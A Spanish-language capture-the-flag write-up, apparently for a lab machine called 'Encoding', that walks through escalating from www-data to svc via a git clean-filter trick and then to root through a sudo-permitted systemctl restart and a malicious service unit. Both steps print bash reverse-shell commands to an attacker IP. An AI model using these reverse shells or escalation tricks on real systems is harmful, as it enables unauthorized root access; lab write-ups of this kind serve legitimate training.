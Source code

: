 Al analizar el archivo que podemos ejecutar, vemos que podemos commitear en el repositorio visto anteriormente.
Encontré este [informe](https://medium.com/geekculture/how-to-protect-your-filesystem-from-git-5f17b597bb68) que muestra una vulnerabilidad de `git`. También este [otro](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-git-privilege-escalation/) que muestra como explotarlo.

```bash
www-data@encoding:~/image/scripts$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.163/4445 0>&1"' > /tmp/revshell
www-data@encoding:~/image/scripts$ chmod +x /tmp/revshell
www-data@encoding:~/image/scripts$ cd ..
www-data@encoding:~/image$ git init
Reinitialized existing Git repository in /var/www/image/.git/
www-data@encoding:~/image$ echo '*.php filter=indent' > .git/info/attributes
www-data@encoding:~/image$ git config filter.indent.clean /tmp/revshell
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
```

Nos ponemos en escucha en el puerto 4445 y obtenemos una **Reverse shell** como **svc** junto con la flag de `user.txt`.

----
# root

Nos fijamos si **svc** tiene permitido ejecutar comandos como **root** mediante el comando `sudo -l`:

```bash
svc@encoding:/var/www/image$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

Efectivamente, puede ejecutar `/usr/bin/systemctl restart *` sin proporcionar ninguna contraseña.
De vuelta, podemos ver cómo explotarlo [acá](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/)

Metemos el siguiente payload en `/etc/systemd/system/exploit.service` y lo ejecutamos con `sudo /usr/bin/systemctl restar exploit` previo habernos puesto en modo escucha por el puerto **4446**.

```
[Unit]
This is an example service.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.163/4446 0>&1'

[Install]
WantedBy=multi-user.target
```

Y listo obtenemos una **shell** como **root** :).

----
